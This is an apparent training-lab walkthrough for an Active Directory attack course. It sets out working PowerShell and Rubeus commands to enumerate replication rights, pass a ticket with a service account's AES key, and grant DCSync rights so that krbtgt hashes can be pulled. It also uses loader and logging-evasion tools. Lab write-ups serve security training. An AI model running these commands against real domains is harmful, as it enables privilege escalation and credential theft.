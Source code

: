 ```yaml
---
icon: vial
---
```


# 12 - Learning Object1️2️

## Tasks



1 - Check if student867 has Replication (DCSync) rights

* If yes, execute the DCSync attack to pull hashes of the krbtgt user.
* If no, add the replication rights for student867 and execute the DCSync attack to pull hashes of the krbtgt user.

Flag 21 \[dcorp-dc] - Attack that can be executed with Replication rights (no DA privileges required) 🚩

## Solutions

### 1 - Check if student867 has Replication (DCSync) rights

We can check if student687 has replication rights using the following commands:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student867"}
```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

#### If no, add the replication rights for student867 and execute the DCSync attack to pull hashes of the krbtgt user.

The student867 doesn't have replication rights, let's add it starting a process as Domain Administrator by running the below command from an elevated command prompt:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

Run the following command in the new process:

```bash
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student867 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Go back into the student867 shell to check if all go right:

```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student867"}
```

<figure><img src="../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

### Flag 21 \[dcorp-dc] - Attack that can be executed with Replication rights (no DA privileges required) 🚩

The DCSync attack can be executed with Replication rights (no DA privileges required).
